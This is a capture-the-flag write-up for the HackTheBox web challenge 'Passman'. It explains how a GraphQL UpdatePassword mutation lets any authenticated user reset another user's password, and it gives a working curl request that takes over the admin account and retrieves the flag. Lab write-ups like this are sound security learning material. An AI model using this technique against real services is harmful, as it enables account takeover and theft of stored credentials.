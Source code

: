 # Web: Passman
> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?


#### Difficulty: easy

We are given a zip file that contains several files, notably: the `challenge` directory which contains the source code, `Dockerfile`, `build-docker.sh` and `entrypoint.sh`.

Running `npm audit` did not give any immediate high severity CVEs, only a moderate one on jsonwebtoken. After reviewing the database and JWT implementation, I concluded that neither are vulnerable.

Looking through the `challenge` folder, I spotted `GraphqlHelper.js`. After some googling, I found out that `graphiql` can be set to true to get a web GUI for graphql. I set this to true in `index.js` as I am inexperienced with GraphQL. After building and running the image using `./build-docker.sh`, I was able to access the graphiql interface via `http://localhost:1337/graphql`.

After studying the `GraphqlHelper.js` file, I saw that the `UpdatePassword` mutation will let me update using just a username, the desired password, and any token. I created a new user and used the token from that user to authorize the mutation that I sent via curl:

```
curl 'http://165.232.98.59:32321/graphql' \
  -X POST \
  -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5NDU5MDA2fQ.05Wu_XqtvAlyGhGtZRMF9uLDAzSgt1bXuvFPjq56Pig' \
  -H 'content-type: application/json' \
  --data '{
    "query":"mutation { UpdatePassword(username: \"admin\", password: \"admin\") {message token}}"
  }'
 ```

After executing the command above, I logged in as admin, which gave the phrases for the admin user, which gave me the flag:

`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`

